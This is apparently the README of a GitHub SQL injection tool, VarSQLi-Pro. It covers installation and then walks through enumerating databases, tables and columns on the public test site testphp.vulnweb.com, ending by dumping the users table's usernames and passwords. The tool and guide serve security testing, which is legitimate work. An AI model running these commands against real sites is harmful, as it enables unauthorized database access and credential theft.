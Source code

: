 # Variable SQL Injection Pro
VarSQLi-Pro or Variable SQL Injection Pro - is an upgraded version of VarSQL, a tool designed to detect and exploit SQL Injection vulnerabilities in web applications. SQL Injection is a common security vulnerability in web applications that allows attackers to perform malicious actions and gain unauthorized access to databases.

> VarSQLi-Pro is designed to assist security professionals and those interested in web application security testing in identifying and exploiting SQL Injection vulnerabilities. The tool automatically scans and searches for weaknesses in web applications, and provides users with options to execute SQL Injection attacks and test the security of the system.
### Screenshot
<img src="https://raw.githubusercontent.com/Phamchie/varsqli-pro/main/Img/Screenshot_2023-08-04-15-49-15-17.jpg">

However, it is important to use this tool responsibly and within legal boundaries. Unauthorized access to databases or conducting attacks without proper authorization is illegal and unethical. The use of this tool should only be for educational, research, and improving the security of web applications.

> When using VarSQLi-Pro or any other security testing tool, always adhere to rules and regulations. Protecting personal information and ensuring security is our responsibility and should be ensured in all online activities.

>> Always strive to learn and understand security concepts to effectively protect web applications and databases.

## Setup And install 
- Step 1: Open a terminal or command prompt on your computer.

- Step 2: Navigate to the folder where you want to store the VarSQLi-Pro source code.

- Step 3: Run the following command to clone the source code from the Git repository:
`git clone https://github.com/Phamchie/varsqli-pro`

- Step 4: After the copying is complete, move to the newly created VarSQLi-Pro folder:
`cd VarSQLi-Pro`

- Step 5: Install the dependent libraries by running the following command:
`pip install -r requirements.txt`

- Step 6: After successful installation, you can run VarSQLi-Pro with the command:
`python3 varsqli.py`
```
git clone https://github.com/Phamchie/varsqli-pro
cd varsqli-pro
pyton3 setup.py
python3 varsqli.py --help
```
- Note: Make sure that you have the right to access and use this tool for its lawful purposes. Using this tool unethically or in violation of the law can have serious consequences. Please always follow the cybersecurity rules and regulations and use this tool responsibly
### How To Used ?
- To use this tool first, I will introduce the tool modes
```
options:
  -h, --help         show this help message and exit
  -u URL, --url URL  URL Target ( e.g : https://test.com?path_vuln.php?id=1)
  --dbs              Enumerate DBMS databases
  --tables           Enumerate DBMS database tables
  --columns          Enumerate DBMS database table columns
  -D DB              DBMS database to enumerate
  --dump-all         Dump All DBMS database table columns
  -T TB              Enumerate database to enumerate tables ( ex : --dump-all -T < tables name > -C < columns name >)
  -C CO              Enumerate database to enumerate columns ( ex : --dump-all -T < tables name > -C < columns name >)
```
 - after thoroughly learning about the modes, to exploit SQL Injection on a certain SQL database error website, you use this command to extract the database name

```
$ python3 varsqli.py -u http://testphp.vulnweb.com/listproducts.php?cat=1 --dbs
```
<img src="https://raw.githubusercontent.com/Phamchie/varsqli-pro/main/Img/Screenshot_2023-08-04-16-10-49-93.jpg">
<img src="https://raw.githubusercontent.com/Phamchie/varsqli-pro/main/Img/Screenshot_2023-08-04-16-14-14-40.jpg">

- After we have extracted and obtained the name of the database, you use options `--tables -D <database name>` , this is the command, extract all databases  In the tables section, the command:

```
$ python3 varsqli.py -u http://testphp.vulnweb.com/listproducts.php?cat=1 --tables -D acuart
```
<img src="https://raw.githubusercontent.com/Phamchie/varsqli-pro/main/Img/Screenshot_2023-08-04-16-29-35-14.jpg">

- well , you can see , too got the database name in Tables , okay , next , you guys and I get the database name in columns , we use options as `-  -columns -D <database name>` , and here is the command below
```
$ python3 varsqli.py -u http://testphp.vulnweb.com/listproducts.php?cat=1 --columns -D acuart
```
<img src="https://raw.githubusercontent.com/Phamchie/varsqli-pro/main/Img/Screenshot_2023-08-04-17-00-16-21.jpg">

- after i see it says find the number of columns entries of the whole database , so tables Users have some columns like : `id` , `cart` , `pass` , `uname` , now I will dump it , to dump the database  , we use options `-D <database name> --dump-all -T <tables item name> -C <column item name>`, command:
```
python3 varsqli.py -u http://testphp.vulnweb.com/listproducts.php?cat=1 -D acuart --dump-all -T users -C pass,uname
```
- this command I will dump the `password` and `uname` to get the username and password
- here is the result, password and user are test and test
